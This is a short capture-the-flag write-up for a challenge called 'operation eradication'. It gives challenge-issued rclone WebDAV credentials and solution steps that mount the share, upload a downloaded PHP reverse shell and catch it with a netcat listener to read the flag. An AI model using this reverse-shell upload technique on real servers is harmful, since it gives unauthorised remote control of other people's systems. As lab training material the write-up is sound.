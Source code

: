 
# operation eradication

## instrucations
Oh no! A ransomware operator encrypted an environment, and exfiltrated data that they will soon use for blackmail and extortion if they don't receive payment! They stole our data!

Luckily, we found what looks like a configuration file, that seems to have credentials to the actor's storage server... but it doesn't seem to work. Can you get onto their server and delete all the data they stole!?

with that you get some credentials:
type = webdav
url = http://localhost/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5

## how to solve

1. the credentials are for rclone 

```bash
# get the path to rclone config 
rclone config file  
# replace it with given credentials, replace url with given one i.e. http://chal.ctf.games:30337/webdav

# to mount the remote webdav directory:
rclone mount DEFAULT:/ ./mount-dir/  

# download reverse shell from: https://pentestmonkey.net/tools/web-shells/php-reverse-shell
# modify ip and port
# copy php reverse shell in webdav directory

# on server start listening for reverse shell
nc -v -n -l -p 1234

# now execute the php reverse shell with cat
# idk why this works but it worked
cat php-reverse-shell.php

# now on the server with netcat a shell should pop up
# the flag is in /var/www/html/index.php
```